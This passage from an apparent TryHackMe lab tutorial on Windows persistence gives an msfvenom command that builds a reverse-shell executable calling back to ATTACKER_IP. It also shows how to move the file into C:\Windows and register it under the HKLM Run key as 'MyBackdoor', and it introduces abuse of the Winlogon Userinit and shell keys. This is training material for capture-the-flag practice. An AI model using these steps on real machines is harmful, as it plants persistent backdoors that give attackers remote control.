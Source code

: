 For this task, let's create a new reverse shell with msfvenom:

- **AttackBox**        

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
        
```

After transferring it to the victim machine, let's move it to `C:\Windows\`:

- **Command Prompt**        

```shell-session
C:\> move revshell.exe C:\Windows
        
```

Let's then create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.

**Note:** While in a real-world set-up you could use any name for your registry entry, for this task you are required to use `MyBackdoor` to receive the flag.

![backdoored Run entry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c99038cd6cc9e37512edabb1f873a4da.png)

### Winlogon

Another alternative to automatically start programs on logon is  abusing Winlogon, the Windows component that loads your user profile  right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

- `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually `explorer.exe`.

![Winlogon registry](./assets/f3c2215af6e3f2d19313498fca62a9d4.png)
